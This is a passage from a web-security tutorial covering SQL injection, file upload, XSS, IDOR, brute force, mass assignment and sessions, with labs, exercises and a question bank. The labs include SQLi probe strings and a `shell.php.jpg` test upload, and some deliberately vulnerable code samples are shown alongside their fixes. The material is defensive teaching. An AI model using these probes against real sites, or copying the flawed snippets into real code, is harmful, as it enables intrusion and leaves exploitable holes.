def test_invoice_authz_matrix(client, users):
    owner, other, admin, _ = users
    invoice = create_invoice(owner)

    assert client.get(f"/invoices/{invoice.id}", login=owner).status_code == 200
    assert client.get(f"/invoices/{invoice.id}", login=other).status_code == 404
    assert client.get(f"/invoices/{invoice.id}").status_code == 302   # redirect to login

def test_cannot_escalate_privileges(client, logged_in_user):
    resp = client.patch("/api/users/me", json={"name": "Bob", "is_admin": True})
    assert b"is_admin" not in resp.data or resp.json["is_admin"] is False
```

### Automated Tooling per Vulnerability Class

| Vulnerability | SAST | DAST / Manual |
|---|---|---|
| SQL Injection | semgrep rule `lang.sql.injection`, bandit B608 | sqlmap, Burp Scanner |
| File Upload | Custom lint on `file.save`/`move_uploaded_file` | Manual polyglot upload tests |
| XSS | eslint-plugin-security, semgrep | OWASP ZAP active scan, DOM XSS scanner |
| IDOR | Authz-aware semgrep rules; code review | Authz matrix suite, Burp Authz plugin |
| Brute Force | Config review | Hydra/ffuf against staging (with limits!) |
| Mass Assignment | DTO coverage checks | Diff PATCH payload with extra fields |
| Sessions | Config assertions in CI | Cookie flag audit via ZAP |

> ✅ **CI Gate:** Wire SAST + dependency audits into CI, and run the authz matrix + payload regression suites on every pull request. DAST scans belong on a schedule (weekly) against a staging environment.

---

## 13. Best Practices & Migration Guide

### Universal Best Practices

1. ✅ **Validate** every input before using it (server-side, allow-list based)
2. ✅ **Parameterize** every database query — no exceptions, including ORMs' raw methods
3. ✅ **Escape** every output before rendering it; opt into raw output only for sanitized rich text
4. ✅ **Authorize** every resource access — authenticate once, authorize per request
5. ✅ **Rate-limit** every endpoint that can be abused at scale (login, reset, OTP, search)
6. ✅ **Whitelist** every field a user may write, and filter every response
7. ✅ **Harden** every cookie: `Secure`, `HttpOnly`, `SameSite`, short lifetime, regenerated IDs
8. ✅ Fail closed: on any validation or authorization uncertainty, deny
9. ✅ Log security events (failed logins, denials, rejected uploads) without logging secrets
10. ✅ Keep dependencies patched and audit them automatically in CI

### Migration Guide: Hardening an Existing Application

| Step | Action | Section | Typical Effort |
|---|---|---|---|
| 1 | Inventory all user inputs, file flows, and query construction | 4, 5 | 1–2 days |
| 2 | Replace string-built SQL with parameterized queries (start with auth/payments) | 4 | 1–4 weeks |
| 3 | Move uploads to private storage + magic-byte validation + UUID names | 5 | 3–5 days |
| 4 | Audit templates for `|safe`, `{{{ }}}`, `<%-`, `th:utext`, `innerHTML` | 6 | 2–3 days |
| 5 | Add ownership conditions to every object lookup; add authz matrix tests | 7 | 1–2 weeks |
| 6 | Add rate limiting + constant-time credential checks to auth endpoints | 8 | 2–4 days |
| 7 | Add request DTOs/whitelists and response serializers | 9 | 1 week |
| 8 | Set cookie flags, session regeneration, CSRF tokens | 10 | 2–3 days |
| 9 | Add CSP header in report-only mode, then enforce | 6 | 1 week |
| 10 | Stand up SAST/DAST + regression suites in CI | 12 | Ongoing |

> 💡 **Rollout Tip:** Ship fixes behind feature flags where behavior changes (e.g., stricter upload validation), monitor rejection logs, then flip to enforced by default.

---

## 14. Anti-Patterns

| ❌ Anti-Pattern | Why It Is Dangerous | ✅ Do This Instead |
|---|---|---|
| String-concatenated SQL "just for internal admin tools" | Admin tools are reachable after phishing/SSRF | Parameterize everything |
| Sanitizing SQL input with blocklists (`SELECT`, `UNION`...) | Trivially bypassed (comments, encodings) | Parameterized queries |
| Storing uploads in `public/` with client filenames | Direct webshell execution | Private storage + server UUID names |
| `innerHTML` for user data in SPAs | DOM-based XSS | `textContent` or DOMPurify |
| Checking auth once at login, never per request | IDOR everywhere | Authorization on every lookup |
| Counting on UUIDs alone for access control | Leaked URLs = full access | UUIDs + ownership checks |
| Sleeping in request thread as only rate limit | Ties up workers; bot simply opens more connections | Shared-store limiter + backoff |
| Revealing "email not found" vs "wrong password" | Account enumeration | Generic message + constant time |
| Accepting full `req.body` into ORM update | Mass assignment escalation | Explicit field whitelist / DTO |
| `SameSite=None` "to fix" a broken integration | Opens door to CSRF | Scope exceptions to specific cookies |
| Rolling your own crypto/session format | Almost always flawed | Battle-tested framework session management |
| Security through obscurity (renaming `/admin` to `/admin-8f3k`) | Bots scan; secrets leak in JS bundles | Real authorization |

---

## 15. Performance Considerations

Security controls have costs — here is how to keep them affordable:

| Control | Performance Cost | Mitigation |
|---|---|---|
| Prepared statements | Extra round-trip per new statement | Driver statement caching (e.g., `psycopg2` server-side prepare, mysql2 `prepareCache`), connection pooling |
| Magic-byte validation | One in-memory buffer scan (µs–ms) | Validate before write; stream large files in chunks |
| Rate limiting (Redis) | ~1 Redis round-trip per auth request | Pipeline counters; use local + shared two-tier limiters |
| Progressive delay (`sleep`) | Ties up a worker thread | Only for repeated failures; prefer lockouts + CAPTCHA at scale |
| bcrypt/argon2 hashing | Intentionally slow (50–500 ms) | Cost factor tuned to hardware; offload to dedicated auth service if needed |
| Output escaping | Negligible (templating default) | None needed — keep auto-escaping on |
| CSP | Browser-side parsing only | Start report-only to measure violations |
| Server-side sessions (Redis) | One lookup per request | Keep session records small; use efficient stores |
| UUID primary keys | Slightly larger indexes; random writes | UUIDv7 (time-ordered) for modern Postgres/MySQL 8 |

> 💡 **Rule of Thumb:** A well-configured security control costs milliseconds; a breach costs months. Optimize the implementation, never remove the control.

---

## 16. Hands-On Labs

Complete these labs in order. Each takes 30–60 minutes.

### 🧪 Lab 1: Break and Fix a Search Form (SQLi)

1. Build (or clone) a tiny Flask/Express app with a product search that concatenates the query string
2. Attack it: submit `' OR '1'='1`, then `' UNION SELECT 1,2,3 --` — observe data leakage
3. Fix it with a parameterized query; re-run payloads and confirm zero rows and no errors
4. Add the pytest regression test from Section 12

**Success criteria:** payloads return 0 results, log shows parameter binding, tests pass.

### 🧪 Lab 2: Secure File Upload Pipeline

1. Create an avatar upload endpoint that accepts any file into `public/uploads`
2. Upload a file named `shell.php.jpg` containing script text; browse to it and observe it being served raw
3. Add: extension whitelist → magic-byte check (`filetype`/`file-type`) → size limit → UUID rename → private storage → authorized download route
4. Retry the same attack and the previously valid images

**Success criteria:** `shell.php.jpg` gets 422; real JPEG/PNG/WebP uploads still work; files not directly web-accessible.

### 🧪 Lab 3: IDOR Hunt in a Mini Invoicing App

1. Create users A and B, each with invoices; implement `/invoices/:id` *without* ownership checks
2. As user A, request B's invoice ID — confirm the leak
3. Fix with a scoped query (`id + user_id`); write the four-row authorization matrix test
4. (Optional) Switch IDs to UUIDs and repeat — note the defense-in-depth effect

**Success criteria:** non-owner receives 404; matrix tests all green.

> 🔎 **Suggested practice targets:** OWASP Juice Shop (`docker run -p 3000:3000 bkimminich/juice-shop`) and DVWA contain all 7 vulnerability classes for safe, legal practice.

---

## 17. Pro Tips

1. **Use the `__Host-` cookie prefix** — browsers then *require* `Secure`, `/` path, and no `Domain` attribute; misconfiguration becomes impossible
2. **Ship CSP in report-only first** (`Content-Security-Policy-Report-Only`) and collect violation reports for a week before enforcing
3. **Fail closed on upload validation** — if the magic-byte library cannot identify the file, reject it; do not default to allow
4. **Cache prepared statements at the pool level** so per-request overhead of parameterization approaches zero
5. **Differentiate enumeration defense:** constant-time comparisons for passwords, generic messages for errors, and uniform 404s for missing *and* unauthorized resources
6. **Log rejects, not just successes** — a spike in 422 upload rejections or 403s is your earliest intrusion signal; alert on it
7. **Test like an attacker in CI:** keep a permanent `payloads.yaml` of SQLi/XSS/IDOR probes and run it against staging on every release
8. **Prefer UUIDv7 keys** for new tables: non-enumerable like v4, but time-ordered for index-friendly inserts
9. **Separate read and write DTOs** per endpoint — it prevents both mass assignment and accidental data exposure in one move
10. **Adopt security code owners:** require a review from a security-trained teammate for auth, upload, and payment changes

---

## 18. Universal Security Checklist

### Pre-Deployment Checklist

```mermaid
flowchart TD
    A[🚀 Pre-Deployment Review] --> B

    subgraph B[Security Checklist]
        direction TB
        C1[✅ All DB queries use parameterized statements]
        C2[✅ No user input concatenated into SQL strings]

        D1[✅ File MIME validated via magic bytes]
        D2[✅ Files stored outside web root]
        D3[✅ Server-generated random filenames]

        E1[✅ All template output uses auto-escaping]
        E2[✅ Rich text sanitized server-side before storage]
        E3[✅ Content-Security-Policy header set]

        F1[✅ Every resource access checks user ownership]
        F2[✅ UUIDs or opaque IDs used where possible]

        G1[✅ Rate limiting on login and password reset]
        G2[✅ Constant-time credential comparison]
        G3[✅ 2FA enabled for privileged accounts]

        H1[✅ Only whitelisted fields accepted in updates]
        H2[✅ Sensitive fields excluded from API responses]

        I1[✅ Cookie Secure flag enabled]
        I2[✅ Cookie HttpOnly flag enabled]
        I3[✅ Cookie SameSite=Lax or Strict]
        I4[✅ Session regenerated after login]
        I5[✅ CSRF tokens on state-changing forms]
    end

    B --> J[✅ Ship with confidence]
    style J fill:#16a34a,color:#fff
    style A fill:#1e293b,color:#fff
```

### Security Tooling by Language

| Language | Dependency Audit | SAST / Linter | Secrets Scanning |
|---|---|---|---|
| Python | `pip-audit`, `safety` | `bandit`, `semgrep` | `detect-secrets`, `trufflehog` |
| Node.js | `npm audit`, `snyk` | `eslint-plugin-security`, `semgrep` | `detect-secrets`, `trufflehog` |
| PHP | `composer audit` | `phpcs-security-audit`, `psalm` | `trufflehog` |
| Java | `OWASP Dependency-Check` | `SpotBugs`, `SonarQube` | `detect-secrets` |
| Go | `govulncheck` | `gosec`, `staticcheck` | `trufflehog` |
| Ruby | `bundler-audit` | `brakeman` | `detect-secrets` |

### Additional Hardening Practices

```
1. ✅ Never run your application as root
2. ✅ Use environment variables for secrets — never hardcode
3. ✅ Set APP_DEBUG=false / DEBUG=False in production
4. ✅ Enforce HTTPS at the server/proxy level + HSTS header
5. ✅ Rotate secrets periodically (JWT keys, session secrets)
6. ✅ Keep dependencies up to date — automate with Dependabot / Renovate
7. ✅ Log security-relevant events (failed logins, permission denials)
8. ✅ Implement centralized error handling — never expose stack traces
9. ✅ Use a Web Application Firewall (WAF) for public-facing apps
10. ✅ Conduct periodic penetration testing or use automated DAST tools
```

---

## 19. Self-Assessment Checklist

Rate yourself honestly — if you cannot answer "yes" to an item, revisit its section:

**Concepts**
- [ ] I can explain the difference between authentication and authorization, and give an IDOR example (Section 7)
- [ ] I can explain *why* parameterized queries prevent SQLi, not just *that* they do (Section 4)
- [ ] I can name the three XSS types and where each one's payload executes (Section 6)
- [ ] I can describe session fixation and how regeneration prevents it (Section 10)

**Implementation**
- [ ] I have removed every string-built SQL query from my current project (Section 4)
- [ ] My upload endpoints validate magic bytes and store files privately (Section 5)
- [ ] My templates never opt out of auto-escaping for user data (Section 6)
- [ ] Every object lookup in my API is scoped to the authenticated user (Section 7)
- [ ] My login endpoint has rate limiting and constant-time checks (Section 8)
- [ ] My update endpoints use field whitelists or DTOs (Section 9)
- [ ] My cookies carry Secure, HttpOnly, and SameSite flags (Section 10)

**Process**
- [ ] My CI runs SAST, dependency audits, and security regression tests (Section 12)
- [ ] I have a migration plan for remaining legacy vulnerabilities (Section 13)
- [ ] I know what my application logs when it rejects an attack (Sections 11, 17)

> 🎯 **Scoring:** 0–5 yes → start with Sections 4–7. 6–10 → focus on Sections 8–12. 11+ → use Section 17's Pro Tips and mentor your team.

---

## 20. Practice Exercises (With Solutions)

### ✏️ Exercise 1 — Secure the Product Search (SQLi)

**Task (Beginner→Intermediate):** A teammate wrote this endpoint. Identify every flaw and fix it.

```python
@app.route('/products')
def products():
    q = request.args.get('q')
    sort = request.args.get('sort', 'name')
    rows = db.execute(
        "SELECT id, name, price FROM products WHERE name LIKE '%" + q + "%' ORDER BY " + sort
    )
    return render_template('products.html', rows=rows)
```

**Solution:**

```python
ALLOWED_SORTS = {'name': 'name', 'price_asc': 'price ASC', 'price_desc': 'price DESC'}

@app.route('/products')
def products():
    q    = request.args.get('q', '')[:100]                 # bound input length too
    sort = ALLOWED_SORTS.get(request.args.get('sort'), ALLOWED_SORTS['name'])

    rows = db.execute(
        "SELECT id, name, price FROM products WHERE name LIKE ? ORDER BY " + sort,
        (f"%{q}%",)                                        # ✅ data parameterized
    )
    return render_template('products.html', rows=rows)
```

**Explanation:** There are *two* injection points. `q` (data) is fixed with a placeholder. `sort` (SQL structure) cannot be parameterized — column names and keywords are not bindable — so it must be mapped through a **hard-coded whitelist**, never taken raw from the request. Length-capping `q` adds a cheap DoS guard. This is the key interview-level insight: *data* is parameterized, *structure* is whitelisted.

### ✏️ Exercise 2 — Design a Secure Resume Upload (File Upload)

**Task (Intermediate):** A job portal accepts PDF resumes. Write the validation pipeline and explain what each layer blocks.

**Solution:**

```python
import uuid, filetype
from pathlib import Path

PRIVATE_DIR = Path('/var/app/private_uploads/resumes')   # outside web root
MAX_SIZE    = 5 * 1024 * 1024

def validate_resume(file):
    if file.content_length > MAX_SIZE:                          # 1. size
        return 'File too large'
    header = file.read(512); file.seek(0)
    kind = filetype.guess(header)                               # 2. magic bytes
    if kind is None or kind.mime != 'application/pdf':
        return 'Only PDF files are accepted'
    return None

@app.route('/resume', methods=['POST'])
@login_required
def upload_resume():
    file = request.files.get('resume')
    if not file:
        return jsonify({'error': 'No file provided'}), 400
    if (err := validate_resume(file)):
        return jsonify({'error': err}), 422

    name = f"{uuid.uuid4().hex}.pdf"                            # 3. server-named
    PRIVATE_DIR.mkdir(parents=True, exist_ok=True)
    file.save(PRIVATE_DIR / name)                               # 4. private storage
    Resume.create(user_id=current_user.id, path=name)
    return jsonify({'success': True})
```

**Explanation:** Layer 1 blocks disk-exhaustion DoS. Layer 2 blocks double extensions, MIME spoofing, and polyglot scripts (content must genuinely start with `%PDF-`). Layer 3 removes attacker control of the filename (path traversal + collisions). Layer 4 ensures the file can never be executed or fetched directly — it is streamed back only through an authorized route. For extra rigor, rasterize/convert the PDF server-side so only regenerated output is ever served.

### ✏️ Exercise 3 — Expose and Fix the IDOR (IDOR)

**Task (Intermediate):** This API returns any ticket by ID. Write the fix *and* the test that would have caught it.

```javascript
app.get('/api/tickets/:id', requireAuth, async (req, res) => {
    const ticket = await Ticket.findByPk(req.params.id);
    res.json(ticket);
});
```

**Solution:**

```javascript
app.get('/api/tickets/:id', requireAuth, async (req, res) => {
    const ticket = await Ticket.findOne({
        where: { id: req.params.id, userId: req.user.id }   // ✅ ownership scoped
    });
    if (!ticket) return res.sendStatus(404);                 // uniform response
    res.json(sanitizeTicket(ticket));                        // ✅ output filtered
});

// The test that catches it (authz matrix):
// owner -> 200 | other user -> 404 | anonymous -> 401 | admin (if policy) -> 200
```

**Explanation:** The original code authenticated but never authorized. Adding `userId` to the `WHERE` clause makes the database itself enforce ownership — even if a future refactor forgets a check elsewhere, the query cannot return another user's row. Returning 404 (not 403) avoids confirming that ID 88 exists. The matrix test is essential because IDOR is invisible to normal functional tests: *everything works for the owner*.

### ✏️ Exercise 4 — Harden the Login Endpoint (Brute Force)

**Task (Advanced):** Add rate limiting, anti-enumeration, and fixation protection to a stateful login endpoint.

**Solution:**

```python
DUMMY_HASH = generate_password_hash("timing-equalizer")

@app.route('/login', methods=['POST'])
@limiter.limit("5 per minute; 20 per hour", key_func=lambda: f"{request.remote_addr}:{request.form.get('email','')}")
def login():
    user = User.query.filter_by(email=request.form.get('email', '')).first()
    pw_hash = user.password if user else DUMMY_HASH        # ✅ constant-time shape
    ok = check_password_hash(pw_hash, request.form.get('password', ''))

    if not (user and ok):
        register_failure(request)                          # Redis counter + backoff
        return render_template('login.html', error='Invalid email or password')

    clear_failures(request)
    session.clear()                                        # ✅ new session ID
    session['user_id'] = user.id
    return redirect('/dashboard')
```

**Explanation:** The limiter keys on *IP + email* so one NAT'd office cannot lock everyone out while one account cannot be hammered from rotating IPs. Every code path performs exactly one bcrypt comparison (dummy hash when the user is absent), equalizing timing. The single generic error message prevents account enumeration. `session.clear()` before re-populating defeats session fixation. Note what is *absent*: any lockout that lets an attacker deliberately DoS a victim's account — prefer backoff plus alerts over hard permanent lockout.

---

## 21. Test Your Understanding

Answer these 10 questions, then check yourself:

1. What two channels does a parameterized query separate, and why does that stop SQLi? — *Answer: the query structure (compiled plan) and the data (bound values); data can never be re-parsed as SQL syntax.*
2. Why is checking the `Content-Type` header alone useless for uploads? — *Answer: it is set by the client and trivially spoofed; only server-side magic-byte inspection reflects real content.*
3. Name the three XSS types and one distinguishing property of each. — *Answer: Stored (persists in DB, hits every visitor), Reflected (arrives via crafted link, single response), DOM-based (executes client-side, server never sees it).*
4. Why do we return 404 instead of 403 for another user's resource? — *Answer: to avoid confirming the resource exists, preventing enumeration; both should be indistinguishable.*
5. How does a dummy password hash defend against timing attacks? — *Answer: it makes the non-existent-user path perform the same expensive hash comparison, so response time no longer leaks email validity.*
6. Give two reasons `SameSite=Lax` alone is not complete CSRF protection. — *Answer: Lax still sends cookies on top-level GET navigations (GET-based state changes are exposed), and legacy/browser inconsistencies exist — hence CSRF tokens for sensitive actions.*
7. What makes `shell.php.jpg` dangerous even when only the last extension is checked? — *Answer: alternate handlers (`.phtml`, `.phar`), null-byte truncation on older stacks, and misconfigured servers that execute on any embedded handler — which is why content checks matter more than names.*
8. What is the difference between sanitization and escaping, and where does each happen? — *Answer: sanitization removes/permits markup on input before storage (rich text); escaping encodes output at render time so data is never interpreted as code.*
9. Why key a login rate limiter on IP *plus* email rather than IP alone? — *Answer: IP-only blocks whole NAT'd offices and is bypassed by rotating IPs; IP+email balances availability and per-account protection.*
10. What three guarantees does the authz matrix test provide that functional tests do not? — *Answer: it verifies denials (not just owner success), covers every role/anonymous combination, and fails when a future refactor drops an ownership condition.*

---

## 23. Common Interview Questions

1. **"How would you prevent SQL injection in a legacy codebase?"** — Strong answers mention: inventory via grep/AST for concatenation, prioritize auth/payment paths, parameterize incrementally, whitelist structural identifiers (ORDER BY), add payload regression tests, and never rely on input blocklists.
2. **"What's the difference between authentication, authorization, and IDOR?"** — Authentication = who you are; authorization = what you may access; IDOR = authenticated users accessing objects they shouldn't because object lookups lack ownership/permission checks.
3. **"How do you store passwords securely?"** — Slow salted adaptive hashes: bcrypt/argon2id with tuned cost; constant-time verification; never MD5/SHA-1; consider pepper and rate limiting as complements.
4. **"How does CSP help against XSS, and what are its limits?"** — It restricts script sources so injected inline/remote scripts don't execute. Limits: doesn't fix injection itself, 'unsafe-inline' weakens it, needs nonces/hashes for legitimate inline code, and DOM-XSS in same-origin scripts still requires safe DOM APIs.
5. **"How would you design rate limiting for a multi-server deployment?"** — Shared central store (Redis) or gateway-level limits, key design (IP+identity), token bucket/sliding window, standard 429 headers, and graceful degradation strategy.
6. **"A customer reports their account was accessed from another country. Walk through your response."** — Sessions inventory and revocation, auth log analysis, forced credential reset, check for IDOR/credential stuffing patterns, notify per policy, then harden (2FA, alerts).
7. **"Why is double extension `.jpg.php` / null byte `%00` historically effective?"** — Validation and serving layers disagreed about the filename: validators read one extension, executors/handlers another, and older C-based runtimes truncated at null bytes. Lesson: validate content, control the filename yourself.
8. **"How do you prevent mass assignment in a framework with automatic binding?"** — Explicit DTOs or per-endpoint field whitelists, never bind entities directly from request bodies, filter response serializers, and test with extra-fields payloads asserting they're ignored.
9. **"What flags must a session cookie have and what attack does each stop?"** — `Secure` (MITM sniffing), `HttpOnly` (XSS cookie theft), `SameSite` (CSRF), plus regeneration at login (fixation) and short maxAge with server-side store (theft window).
10. **"Your ORM says it's injection-safe. Is it?"** — By default for bound queries, yes; but raw escapes (`whereRaw`, `.raw()`, string interpolation in fragments) reintroduce injection, and structural identifiers can't be bound — audit all raw usage.

---

## 22. Question Bank — 50 Questions

### Beginner (1–20)

1. What does SQL injection allow an attacker to do? — *A: Run arbitrary SQL against your database, reading or destroying data.*
2. What is a parameterized query? — *A: A query sent separately from its data values, so data is never parsed as SQL.*
3. Which HTTP method do file upload forms typically use? — *A: POST, with multipart/form-data.*
4. What does XSS stand for? — *A: Cross-Site Scripting.*
5. What is the difference between stored and reflected XSS? — *A: Stored persists (e.g., in a DB) and affects every viewer; reflected lives in a single crafted request/response.*
6. What does IDOR stand for? — *A: Insecure Direct Object Reference.*
7. What is credential stuffing? — *A: Replaying username/password pairs leaked from other breached services.*
8. Name the three essential session cookie flags. — *A: Secure, HttpOnly, SameSite.*
9. What is mass assignment? — *A: Blindly binding a request payload to a model so attackers can set fields like `is_admin`.*
10. What does CSP stand for? — *A: Content Security Policy.*
11. Why is client-side validation alone insufficient? — *A: It is trivially bypassed by sending crafted requests directly to the server.*
12. What is a magic byte check? — *A: Inspecting a file's leading signature bytes to determine its true type.*
13. Why should uploads live outside the web root? — *A: So the server never directly serves/executes uploaded content.*
14. What is session fixation? — *A: Forcing a victim to use a known session ID, then riding it after they log in.*
15. What status code should a rate limiter return? — *A: 429 Too Many Requests.*
16. What is output escaping? — *A: Encoding characters like `<`, `>` so data is displayed, not executed, by the browser.*
17. Give an example of a CSRF token. — *A: A random per-session token embedded in forms and validated server-side on submission.*
18. What is a whitelist approach to input? — *A: Explicitly allowing only known-good values and rejecting everything else.*
19. Why never trust client-supplied filenames? — *A: They may contain path traversal, double extensions, or attacker-chosen executable names.*
20. What is the OWASP Top 10? — *A: An industry-standard awareness list of the most critical web application security risks.*

### Intermediate (21–40)

21. Why can't ORDER BY clauses be parameterized? — *A: They are SQL structure (identifiers/keywords), not data; use a hard-coded whitelist mapping.*
22. What is a polyglot file? — *A: A file valid in two formats at once, e.g., a JPEG that is also a script — defeats naive extension checks.*
23. How does a UNION-based injection dump other tables? — *A: It appends a second SELECT with matching column count/types to concatenate foreign rows into the result.*
24. Why is ` bleach.clean` applied before storing rich text? — *A: To keep an allow-listed subset of HTML while stripping scripts/event handlers at the trust boundary.*
25. What do `{{{ }}}` in Handlebars and `<%-` in EJS have in common? — *A: Both render raw, unescaped HTML — a common XSS source with user data.*
26. Why do we log rejected security inputs? — *A: Attack attempts are early-warning signals; alerting on spikes detects probing before compromise.*
27. What is the difference between 403 and 404 for denied access, and which is usually preferable? — *A: 403 confirms existence; 404 hides it — 404 is preferred to prevent enumeration.*
28. How do UUIDs help against IDOR, and what is their limit? — *A: They prevent enumeration but confer zero authorization; ownership checks remain mandatory.*
29. What is an authz matrix test? — *A: A test exercising each endpoint × role (owner/non-owner/admin/anonymous) asserting correct denials.*
30. How does exponential backoff help without hard lockout? — *A: It slows brute force to uselessness while avoiding deliberate DoS of victim accounts.*
31. Why perform a hash comparison even for unknown emails? — *A: To equalize response timing and prevent account enumeration via latency.*
32. What two layers prevent CSRF, and how do they complement? — *A: SameSite cookies (coarse, automatic) plus CSRF tokens (explicit, per-request) for sensitive state changes.*
33. What does `__Host-` prefix enforce? — *A: Secure attribute, path=/, no Domain attribute — the browser rejects violations.*
34. Why is in-memory rate limiting unreliable in production? — *A: It resets on restart and is not shared across servers, letting attackers bypass limits.*
35. What is defense-in-depth for file uploads? — *A: Extension whitelist + magic bytes + size limit + random name + private storage + authorized serving + AV scan.*
36. How would you detect mass-assignment risk in code review? — *A: Look for `update(req.body)`/`copyProperties`/`**request.json` and missing DTOs or whitelists.*
37. What is a DTO and how does it prevent mass assignment? — *A: A data-transfer object with only allowed fields; binding to it means extra fields cannot reach the model.*
38. Why should API responses filter sensitive fields? — *A: Information leakage (`isAdmin`, password hashes) enables targeted attacks even when writes are safe.*
39. What does report-only CSP mean? — *A: Violations are reported but not enforced — safe rollout to observe impact first.*
40. What is the performance trade-off of bcrypt's cost factor? — *A: Higher cost = better offline resistance but slower login; tune to ~100–500ms on your hardware.*

### Advanced (41–50)

41. How would you safely allow user-authored HTML in comments? — *A: Server-side sanitization with allow-listed tags/attributes (bleach/sanitize-html), escape at render, CSP as backstop.*
42. Why is blacklisting SQL keywords ineffective? — *A: Encodings, comments, casing, and context tricks evade string filters; parameterization removes the whole class.*
43. Describe a two-tier rate limiter design. — *A: Fast local in-memory buckets plus a shared Redis store for global correctness, combining low latency with cluster-wide limits.*
44. How do you keep DAST safe against a staging environment? — *A: Isolated data snapshots, rate-limited scans, non-destructive scan profiles, and separate credentials.*
45. What is DOM clobbering / DOM-based XSS testing approach? — *A: Fuzz URL fragments and client sinks (innerHTML, document.write) with taint tracking; use DOM XSS scanners.*
46. How do signed, expiring URLs help document sharing? — *A: Access control moves to the URL's cryptographic validity window — no long-lived cookie-dependent access, revocable expiry.*
47. Why can two same-password users have different stored hashes? — *A: Unique per-user salts make every hash distinct, defeating rainbow tables.*
48. How would you verify a fix actually closed an SQLi? — *A: Regression suite with payload corpus, driver-level query logging to confirm binding, and a DAST pass against staging.*
49. What risks does exposing verbose stack traces create? — *A: Schema/table names, file paths, library versions, and SQL fragments — recon material for SQLi and dependency exploits.*
50. Describe a secure-by-design alternative to session cookies for a pure SPA + API. — *A: Short-lived access tokens in memory + refresh token rotation with reuse detection, httpOnly refresh cookie, strict CORS — or keep httpOnly session cookies; never localStorage for long-lived tokens.*

---

## 24. Summary & Key Takeaways



These 7 vulnerabilities are not exotic or framework-specific. They appear in Python apps and Java apps, in REST APIs and server-rendered pages, in startups and in enterprises. The underlying weakness is always the same: **implicit trust in data that comes from outside your system**.

The defenses are equally universal:

- **Validate** every input before using it
- **Parameterize** every database query
- **Escape** every output before rendering it
- **Authorize** every resource access, not just authenticate
- **Rate-limit** every endpoint that can be abused at scale
- **Whitelist** every field that a user is allowed to modify
- **Harden** every session and cookie configuration

No specific language or framework saves you from these vulnerabilities. But disciplined application of these principles will protect you regardless of your stack.

> **The habit to build:** Before every feature ships — regardless of your technology choices — ask: *"What happens when someone sends unexpected, malicious, or unauthorized input here?"*
>
> If you can answer that question for every search form, upload field, URL parameter, login flow, API endpoint, and cookie setting — your application will be significantly more resilient than the vast majority of production systems on the internet today.

---

> **Security is not a feature you add at the end. It is a discipline you practice at every step — in every language, in every framework, on every team.**

---

## 25. Further Reading & Resources

### Official Standards & References

- **OWASP Top 10** — https://owasp.org/www-project-top-ten/
- **OWASP Cheat Sheet Series** (SQL Injection Prevention, XSS Prevention, Authentication, Session Management, File Upload) — https://cheatsheetseries.owasp.org/
- **OWASP ASVS** (Application Security Verification Standard) — https://owasp.org/www-project-application-security-verification-standard/
- **MDN Web Docs: HTTP cookies & CSP** — https://developer.mozilla.org/
- **CWE Common Weakness Enumeration** (CWE-89 SQLi, CWE-79 XSS, CWE-639 IDOR, CWE-915 Mass Assignment) — https://cwe.mitre.org/

### Books

- *The Web Application Hacker's Handbook* — Stuttard & Pinto
- *OAuth 2 in Action* — Jones, Bradley & Sakimura (auth flows done right)
- *Securing DevOps* — Julien Vehent (security in CI/CD)

### Interactive Practice

- **OWASP Juice Shop** — https://owasp.org/www-project-juice-shop/
- **PortSwigger Web Security Academy** (free labs) — https://portswigger.net/web-security
- **DVWA** — https://github.com/digininja/DVWA

### Tools Referenced in This Tutorial

`sqlmap`, `OWASP ZAP`, `Burp Suite`, `bandit`, `semgrep`, `npm audit`/`pip-audit`/`govulncheck`/`bundler-audit`, `trufflehog`, `bleach`/`sanitize-html`/`DOMPurify`, `flask-limiter`/`express-rate-limit`, `filetype`/`python-magic`/`file-type`

---

## 26. Next Steps: Your Learning Path

1. **This week:** Run the three Hands-On Labs (Section 16) against a local app — muscle memory beats theory
2. **This month:** Apply the Migration Guide (Section 13) to one real project; ship fixes behind flags and monitor rejection logs
3. **This quarter:** Stand up the CI security gate from Section 12 (SAST + dependency audit + authz matrix tests), then attempt the PortSwigger Academy labs for each vulnerability class
4. **Ongoing:** Re-take the Self-Assessment (Section 19) quarterly; graduate to OWASP ASVS Level 2 verification for production systems
5. **Deepen:** Explore adjacent topics — API security (OWASP API Top 10), authentication protocols (OAuth 2.1/OIDC), secrets management, and container security

---

*Tutorial generated per knowledge-base preferences. **Last Updated:** 2026-09-08.*
